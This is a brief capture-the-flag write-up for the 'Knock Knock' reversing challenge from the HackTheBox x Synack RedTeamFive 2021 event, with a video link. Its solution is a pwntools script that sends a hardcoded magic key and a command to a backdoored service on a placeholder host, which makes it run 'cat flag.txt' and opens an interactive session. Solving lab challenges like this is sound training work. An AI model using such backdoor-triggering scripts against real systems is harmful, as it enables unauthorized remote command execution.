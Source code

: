 ```yaml
---
name: Knock Knock (2021)
event: HackTheBox x Synack RedTeamFive CTF 2021
category: Rev
description: Writeup for Knock Knock (rev) - HackTheBox x Synack RedTeamFive CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Knock Knock

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/TN1zPbKN_9E/0.jpg)](https://youtu.be/TN1zPbKN_9E?t=1070s "HackTheBox x Synack RedTeamFive 2021: Knock Knock")

## Solution

#### backdoor.py

{% code overflow="wrap" %}
```py
from pwn import *

context.log_level = 'DEBUG'

io = remote('ip', 31337)

cmd = b'command:cat flag.txt'

io.send(b'8f4328c40b1aa9409012c7406129f04b')
io.send(bytes([len(cmd)]))
io.send(cmd)

io.interactive()
```
{% endcode %}

